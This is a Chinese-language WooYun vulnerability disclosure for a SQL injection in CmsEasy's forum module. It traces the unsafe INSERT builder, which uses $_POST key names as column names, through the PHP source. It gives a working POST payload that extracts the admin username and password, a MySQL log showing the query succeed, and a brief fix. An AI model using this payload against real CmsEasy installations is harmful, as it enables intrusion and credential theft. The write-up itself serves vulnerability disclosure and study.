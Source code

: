 ## WooYun-2014-66221：Cmseasy SQL注射漏洞之三

## **詳細說明**
bbs中發文章的時候 直接把`$_POST`資料帶入 拼接sql功能函數中導致注入
/bbs/add-archive.php 30行

```php
if($id = $archive->inserData($_POST)){
```
直接帶入整個`$_POST`<br />
/bbs/model/db/base.php 38行

```php
public function inserData($data){

       $r = $this->odb->insert($this->tblName,$data); //在跟入

       if($r)

           return $this->odb->getInsertId();

       else

           return false;

}
```
/bbs/commonlib/db.php

```php
public function insert($table, $data)

    {

        $sql = $this->getInsertString($table, $data);//拼接SQL 往下看。

        return $this->execSql($sql);

    }
```
```php
public function getInsertString($table, $data)

    {

        $n_str = '';

        $v_str = '';

        $table = $this->filterString($table);

        foreach ($data as $k => $v)//遍歷資料 因為穿過來的是整個$_POST所以 我們可以任意控制 列明和值

        {

            $n_str .= $this->filterString($k).',';

            $v_str .= "'".$this->filterString($v)."',";

        }

        $n_str = preg_replace( "/,$/", "", $n_str );

        $v_str = preg_replace( "/,$/", "", $v_str );

        $str = 'INSERT INTO '.$table.' ('.$n_str.') VALUES('.$v_str.')';

        return $str;

    }
```
```php
public function filterString($str)

    {

        if ($this->magic_quotes)

        {

            $str = stripslashes($str);

        }

        if ( is_numeric($str) ) {

            return $str;

        } else {

            $ret = @mysqli_real_escape_string($this->con, $str);

            if ( strlen($str) && !isset($ret) ) {

                $r = $this->checkConnection();

                if ($r !== true) {

                    $this->closeDB();

                    $ret = $str;

                }

            }

            return $ret;

        }

    }
```

過濾也沒什麼用 因為沒過濾關鍵一些語句
<br />
裡面還有一個360safe.php的腳本 但是 這個並不過濾鍵名 只過濾鍵值
<br />
還有一個變量名中的點和空格被轉換成下劃線。不過不用空格也是可以的。 。
<br />
<br />
<pre>exp:
.../PHP/CmsEasy/bbs/add-archive.php?cid=1
(POST)
title=a&content)values(1,(SELECT(CONCAT(USERNAME,0x7c,PASSWORD))FROM(cmseasy_user)WHERE(USERID%3D1)))#=c&submit=a&verify=HKCX
</pre>

## **漏洞證明**

<pre>
mysql 日志 ：

2070 Query INSERT INTO cmseasy_bbs_archive (title,content)values(1,(SELECT(CONCAT(USERNAME,0x7c,PASSWORD))FROM(cmseasy_user)WHERE(USERID=1)))#,username,userid,ip,addtime) VALUES('a','c','123213','4','...','1403698291')
</pre>

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.34/3.34-1.png)

---

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.34/3.34-2.png)

## **修復方案**
不要把`$_POST`提交